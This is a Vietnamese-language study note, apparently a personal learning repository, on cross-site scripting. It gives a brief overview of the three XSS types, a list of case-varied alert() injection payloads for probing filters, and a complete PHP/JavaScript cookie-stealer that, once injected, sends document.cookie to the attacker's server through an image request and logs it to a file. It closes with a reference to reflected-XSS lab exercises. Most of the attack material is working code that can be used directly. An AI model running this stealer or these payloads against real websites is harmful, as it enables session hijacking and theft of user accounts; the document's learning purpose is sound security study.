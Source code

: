 # A3-Cross-Site Scripting (XSS)
### khái quát
XSS được viết tắt bởi Cross-Site-Scripting. Nó là một phương pháp tấn công cơ bản. Nó dựa trên việc thực thi HTML và JavaScript trên một trang web. Việc tấn công này có thể xảy ra khi xác nhận những lệnh ở các text-box, hoặc cũng có thể là trên thanh URL. Những kết quả được đọc dưới dạng HTML, vì vậy nó sử dụng một vài thủ thuật Social-Engineering để tác động đến 1 ai đó tải một virus mà chính bạn đã tạo ra, và là tiềm năng cho một botnet, hoặc RAT, cũng có thể là 1 keylogger. XSS có thể trở nên rất nguy hiểm, Nhưng cũng có thể rất vô hại.
### gồm 3 loại
- STORED-XSS :  chèn đoạn js thông qua lưu trữ , vd gửi tn đến admin

-  REFLECTED-XSS: Khác với Stored-XSS, Reflected-XSS đoạn mã khai thác sẽ không được lưu trữ trên server , chèn js vào mục tìm kiến hay cmt...

- xss dom based : chưa nắm rõ

các đoạn mã check lỗi
```

"><script>alert("XSS")</script>
"><script>alert(String.fromCharCode(88,83,83)) </script>
'><script>alert("XSS")</script>
'><script>alert(String.fromCharCode(88,83,83))</script>
<ScRIPt>aLeRT("XSS")</ScRIPt>
<ScRIPt<aLeRT(String.fromCharCode(88,83,83))</ScRIPt>
"><ScRIPt>aLeRT("XSS")</ScRIPt>
"><ScRIPt<aLeRT(String.fromCharCode(88,83,83)) </ScRIPt>
'><ScRIPt>aLeRT("XSS")</ScRIPt>
'><ScRIPt<aLeRT(String.fromCharCode(88,83,83))</ScRIPt>
</script><script>alert("XSS")</script>
</script><script>alert(String.fromCharCode(88,83,83) )</script>
"/><script>alert("XSS")</script>
"/><script>alert(String.fromCharCode(88,83,83))</script>
'/><script>alert("XSS")</script>
'/><script>alert(String.fromCharCode(88,83,83))</script>
</SCRIPT>"><SCRIPT>alert("XSS")</SCRIPT>
</SCRIPT>"><SCRIPT>alert(String.fromCharCode(88,83,8 3))
</SCRIPT>">"><SCRIPT>alert("XSS")</SCRIPT>
</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83 ,83))</SCRIPT>
";alert("XSS");"
";alert(String.fromCharCode(88,83,83));"
';alert("XSS");'
';alert(String.fromCharCode(88,83,83));'
";alert("XSS")
";alert(String.fromCharCode(88,83,83))
';alert("XSS")
';alert(String.fromCharCode(88,83,83))

```
 - đoạn PHP get cookie
 
 ```
 <?php
/*
* Created on 16. april. 2007 Được tạo ngày 16/8/2007
* Created by Audun Larsen (audun@munio.no)- Tác giả-
*
* Copyright 2006 Munio IT, Audun Larsen
*
* THIS SOFTWARE IS PROVIDED BY THE AUTHOR ``AS IS'' AND ANY EXPRESS OR IMPLIED WARRANTIES,
* INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS
* FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE AUTHOR OR CONTRIBUTORS BE LIABLE
* FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES
* (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS;
* OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY,
* OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE,
* EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
*/

if(strlen($_SERVER['QUERY_STRING']) > 0) {
$fp=fopen('./CookieLog.txt', 'a');
fwrite($fp, urldecode($_SERVER['QUERY_STRING'])."\n");
fclose($fp);
} else {
?>

var ownUrl = 'http://<?php echo $_SERVER['HTTP_HOST']; ?><?php echo $_SERVER['PHP_SELF']; ?>';

// ==
// URLEncode and URLDecode functions
//
// Copyright Albion Research Ltd. 2002
// http://www.albionresearch.com/
//
// You may copy these functions providing that
// (a) you leave this copyright notice intact, and
// (b) if you use these functions on a publicly accessible
// web site you include a credit somewhere on the web site
// with a link back to http://www.albionresearch.com/
//
// If you find or fix any bugs, please let us know at albionresearch.com
//
// SpecialThanks to Neelesh Thakur for being the first to
// report a bug in URLDecode() - now fixed 2003-02-19.
// And thanks to everyone else who has provided comments and suggestions.
// ==
function URLEncode(str)
{
// The Javascript escape and unescape functions do not correspond
// with what browsers actually do...
var SAFECHARS = "0123456789" + // Numeric
"ABCDEFGHIJKLMNOPQRSTUVWXYZ" + // Alphabetic
"abcdefghijklmnopqrstuvwxyz" +
"-_.!~*'()"; // RFC2396 Mark characters
var HEX = "0123456789ABCDEF";

var plaintext = str;
var encoded = "";
for (var i = 0; i < plaintext.length; i++ ) {
var ch = plaintext.charAt(i);
if (ch == " ") {
encoded += "+"; // x-www-urlencoded, rather than %20
} else if (SAFECHARS.indexOf(ch) != -1) {
encoded += ch;
} else {
var charCode = ch.charCodeAt(0);
if (charCode > 255) {
alert( "Unicode Character '"
+ ch
+ "' cannot be encoded using standard URL encoding.\n" +
"(URL encoding only supports 8-bit characters.)\n" +
"A space (+) will be substituted." );
encoded += "+";
} else {
encoded += "%";
encoded += HEX.charAt((charCode >> 4) & 0xF);
encoded += HEX.charAt(charCode & 0xF);
}
}
} // for

return encoded;
};

cookie = URLEncode(document.cookie);
html = '<img src="'+ownUrl+'?'+cookie+'">';
document.write(html);

< ?php
}
?>
``` 

### lab 

XSS - Reflected (GET),XSS - Reflected (POST)
<img src="http://image.prntscr.com/image/c5611150478940c799cc3e47046a8965.png">

